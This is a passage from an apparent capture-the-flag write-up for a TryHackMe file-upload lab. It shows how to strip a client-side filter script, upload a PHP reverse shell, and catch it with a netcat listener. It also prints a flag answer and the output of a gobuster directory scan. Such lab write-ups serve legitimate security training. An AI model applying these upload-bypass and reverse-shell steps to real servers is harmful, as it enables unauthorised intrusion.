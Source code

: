```
					<input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
				</form>
				<p style="display:none;" id="errorMsg">Invalid File Type</p>
				<p style="display:none;" id="uploadtext"></p>
				<p class="responseMsg" style="display:none;" ></p>
			</div>
		</main>
	</body>
</html>
```

5. Delete `<script src="assets/js/client-side-filter.js"></script>` and 'Forward'

6. Upload the `php-reverse-shell.php` and go to `http://java.uploadvulns.thm/assets`. Then click on the reverse-shell and have a netcat listner `nc -lvnp 1234`

7. Voila! You are in, then find the flag.

What is the flag in /var/www/?

```
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
```

### Task 8

Now your turn. You know the drill by now -- figure out and bypass the filter to upload and activate a shell. Your flag is in /var/www/. The site you're accessing is `annex.uploadvulns.thm`.

Be aware that this task has also implemented a randomised naming scheme for the first time. For now you shouldn't have any trouble finding your shell, but be aware that directories will not always be indexable...

First do a gobuster scan: `gobuster dir -u http://annex.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Output:

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://annex.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/16 05:06:36 Starting gobuster in directory enumeration mode
===============================================================
/privacy              (Status: 301) [Size: 332] [--> http://annex.uploadvulns.thm/privacy/]
/assets               (Status: 301) [Size: 331] [--> http://annex.uploadvulns.thm/assets/] 
Progress: 3161 / 220561 (1.43%)                                                           ^C
[!] Keyboard interrupt detected, terminating.
                                                                                           
===============================================================
2021/04/16 05:06:59 Finished
===============================================================

```
